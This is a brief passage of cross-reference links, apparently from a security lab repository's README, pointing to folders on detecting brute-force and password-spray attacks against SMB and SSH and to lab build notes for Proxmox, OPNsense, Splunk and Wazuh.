- [`credential-attack-detection/`](../credential-attack-detection/) — same infrastructure, brute force and password spray across Windows SMB and Linux SSH
- [`lab-infrastructure/`](../lab-infrastructure/) — Proxmox, OPNsense, Splunk, Wazuh build notes
